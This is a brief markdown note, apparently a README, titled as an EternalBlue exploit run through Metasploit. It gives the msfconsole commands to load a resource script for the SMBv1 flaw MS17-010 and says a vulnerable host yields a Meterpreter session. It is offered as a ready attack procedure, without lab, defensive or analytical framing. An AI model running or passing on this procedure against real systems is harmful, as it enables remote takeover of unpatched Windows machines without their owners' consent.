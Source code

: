 # EternalBlue Exploit via Metasploit

This uses the famous SMBv1 vulnerability.

## Steps

```bash
msfconsole
> resource scripts/exploits/smb_ms17_010.rc
```

## Output
    You’ll get a Meterpreter session if vulnerable.
